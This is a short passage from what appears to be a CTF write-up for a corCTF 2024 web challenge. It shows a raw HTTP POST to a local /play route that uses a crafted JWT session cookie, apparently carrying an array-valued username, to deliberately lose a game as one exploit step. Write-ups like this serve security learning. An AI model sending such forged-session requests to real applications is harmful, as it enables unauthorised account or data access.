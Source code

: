 ![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729194936.png)

Then, use the new `session` cookie to **lose** once in the game at POST route `/play`:

```http
POST /play HTTP/1.1
Host: localhost:8080
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6WyJkdW1teV91c2VybmFtZSIsMTMzNywiZmxhZ191c2VybmFtZSJdLCJnYW1lIjoiYzMxNWFiMzQ1MDVlMjA4ZiIsImlhdCI6MTcyMjI1MzY4N30.Y9hb-dnr-jPv7xU7LiUcd-WPWq3PTxXBjBzsFondsdc
Content-Type: application/json
Content-Length: 15

{
  "position": ""
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729195144.png)
